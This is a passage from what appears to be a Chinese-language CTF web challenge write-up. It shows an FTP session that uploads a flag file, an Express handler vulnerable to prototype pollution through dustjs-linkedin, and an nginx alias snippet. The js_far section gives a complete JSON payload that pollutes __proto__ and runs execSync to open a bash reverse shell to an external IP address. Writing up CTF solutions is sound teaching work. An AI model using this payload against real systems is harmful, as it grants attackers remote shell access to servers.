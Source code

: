 ```shell
ctfer@engine-1:/home/node/src$ ftp 127.0.0.1 6668
ftp 127.0.0.1 6668
john
Password:doe
put /flag flag


```

![image-20220116013034396](2022-工大抗疫-Web.assets/image-20220116013034396.png)

# js_far

```js
    let {id,solved,ifsolve} = req.body;
    let rel = false;
    works[id][solved]=ifsolve;
    if(ifsolve==='solve'){
        works[id]['emo']=emo_solve[id[4]-1];
        rel=true;
    }else {
        works[id]["emo"]=emo_unsolve[id[4]-1];
    }
    res.json({'ok':rel});
```

查一下`dustjs-linkedin`的rce：https://github.com/linkedin/dustjs/issues/804



第一行代码并不能原型链污染，但是下面的可以。

打就完事了：

```
{"id":"__proto__","ANY_CODE":"","ifsolve":"this.constructor.constructor('return process')().mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/121.5.169.223/39767 0>&1\"')"}
```

flag在`/root/flag.txt`，`/home/js_far/flag.txt`是假flag。



# 小苓的网页

附件看到：

```
        location /.well-known {
                autoindex on;
                alias /var/www/html/well-known/;
        }
```
